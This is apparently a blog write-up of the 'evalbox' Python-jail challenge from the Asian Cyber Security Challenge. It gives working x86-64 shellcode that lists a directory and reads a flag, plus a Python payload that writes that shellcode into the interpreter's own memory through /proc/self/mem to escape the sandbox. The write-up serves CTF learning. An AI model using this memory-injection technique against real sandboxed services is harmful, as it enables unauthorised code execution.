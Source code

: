 ```yaml
---
title: "evalbox - pyjail writeup"
date: 2023-08-19
draft: false
tags: ["pyjail", "pwn", "ptr-yudai"]
---
```


This was a particularly unique and well-designed PyJail challenge featured in the Asian Cyber Security Challenge. Although I solved it during the contest using an unintended method, I later came across a writeup by ptr-yudai (an incredible pwner, someone I really aspire to be like!). Below are the notes I made while going through his insightful writeup.

<!--more-->

## Part 1: Getting the Name of the File

In this challenge, we needed to find the file's name along with the full path, as the flag file had a randomized name.

### `openat` System Call:
The `openat` syscall allows us to open files within a directory by specifying the directory file descriptor and a relative path.

```c
int openat(int dirfd, const char *pathname, int flags);
```

- We set the path as `/home/ctf`, and `AT_FDCWD` is set in `dirfd` to indicate that the pathname is relative.
- `openat` syscall breakdown:
  - `rdi`: first argument - `AT_FDCWD` (`-100`).
  - `rsi`: pointer to the path (e.g., `/home/ctf`).
  - `rdx`: flags (set to `0` for read-only).
  - `rax`: syscall number (257).

### `getdents` System Call:
This syscall reads directory entries, such as filenames, from an open directory.

```c
int getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count);
```

- It retrieves a series of `linux_dirent` structures, each containing metadata about files within the directory, like the inode number, offset, and filename.

```c
struct linux_dirent {
    unsigned long  d_ino;     /* Inode number */
    unsigned long  d_off;     /* Offset to next linux_dirent */
    unsigned short d_reclen;  /* Length of this linux_dirent */
    char           d_name[];  /* Filename (null-terminated) */
    char           pad;       /* Zero padding byte */
    char           d_type;    /* File type (since Linux 2.6.4) */
};
```

- `getdents` syscall breakdown:
  - `rdi`: file descriptor returned by the `openat` syscall.
  - `rsi`: buffer (address of the directory entries).
  - `rdx`: buffer size (`0x1000`).
  - `rax`: syscall number (78).

### Recursive Code to Print Directory Entries:
The following code iterates through the `linux_dirent` structures, printing out each filename in the directory.

```asm
r15 = rax          ; number of bytes read.
r14 = 0            ; initialize index to 0.
edx = 0            ; reset edx.

lp:
    write(1, rsp + r14 + 18, 20)    ; print the filename.
    write(newline)                  ; add newline.

    dx = *(rsp + r14 + 16)          ; get the record length.
    add r14d, edx                   ; move to the next record.
    cmp r14, r15                    ; compare index with total bytes read.
    jl lp                           ; loop until all records are printed.

    exit()                          ; exit after printing all filenames.
```

This code loops through the directory entries and prints the filenames, allowing us to identify the randomly named flag file.

## Part 2: Injecting Shellcode via Memory Manipulation

The next step involves executing arbitrary code by injecting shellcode into memory using file descriptors mapped to the process's memory.

### Virtual Memory Manipulation:
We leverage the `/proc/` filesystem, which provides access to the kernel's view of the current process, including memory mappings and the process's memory itself.

- `/proc/self/maps`: Provides the memory mappings of the current process.
- `/proc/self/mem`: Allows direct access to the memory of the current process.

### Python Code for Shellcode Injection:

```python
code = f"""
all(map(
    lambda fs: [
        fs[1].seek(int(fs[0].read(12), 16) + 0x18ebb8, 0),
        fs[1].write({shellcode}),
        fs[1].flush(),
        input()
    ],
    [(open("/proc/self/maps"), open("/proc/self/mem", "wb"))]
))
""".replace("\n", "")
```

### Breakdown:
1. **Get the memory mapping**: The code reads the first address from `/proc/self/maps`, which gives the base address of the memory region.
2. **Seek to a target offset**: It seeks to a specific offset (calculated as `0x18ebb8` from the base address), which is somewhere in the `_Py_read` function.
3. **Write shellcode**: The shellcode is injected into the memory at the calculated offset.
4. **Flush changes**: The memory is flushed to ensure that the shellcode is written.
5. **Trigger shell execution**: The shellcode gets executed when the process calls the read function.

## Part 3: Extracting the Flag
In the final part, the flag file can be accessed using standard file operations. Since the flag filename is randomized, the steps involve:
- **Opening the file**: Using the `open` syscall to open the flag file.
- **Reading the flag**: Reading the contents of the flag file.
- **Printing the flag**: Outputting the flag, which reveals the solution.

```bash
open("flag-[random-md5].txt", O_RDONLY)
read(fd, buffer, size)
write(1, buffer, size)
```

## Part 1 Assembly code
```asm
[BITS 64]
global main

section .text
main: 
	;openat(AT_FDCWD, "/", O_RDONLY)
	mov edx, 0
	lea rsi, [rel s_root]
	mov rdi, -100
	mov eax, 257
	syscall

	;getdents(fd, dirent, 0x1000)
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 0x1000
	mov rax, 78
	syscall

	mov r15, rax

	xor r14, r14
	xor edx, edx
	jmp rec 

rec:
	mov dx, [rsp+r14+16] ; rsp is our dirent
	sub edx, 20
	lea rsi, [rsp+r14+18]
	mov edi, 1
	mov eax, 1
	syscall

	mov edx, 1
	lea rsi, [rel s_newline]
	mov edi, 1
	mov eax, 1
	syscall

	mov dx, [rsp+r14+16]
	add r14d, edx
	cmp r14, r15
	jl rec

	xor edi, edi
	mov eax, 60
	syscall

section .data
	s_root: db "/home/ctf",0
	s_newline: db 0x0a
```

## Part 2 Assembly code
```asm
[BITS 64]
global main

section .text
main: 
    mov rax, 2
    lea rdi, [rel flag]
    mov rsi, 0
    mov rdx, 0
    syscall

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall

    mov rdi, 1
    mov rsi, rsp
    mov rdx, 100
    mov rax, 1
    syscall

section .data
    flag: db "/home/ctf/flag-0479f1dcda629bbe833598bce876a647.txt", 0 
```

By following this process, we can successfully extract the flag and complete the challenge.
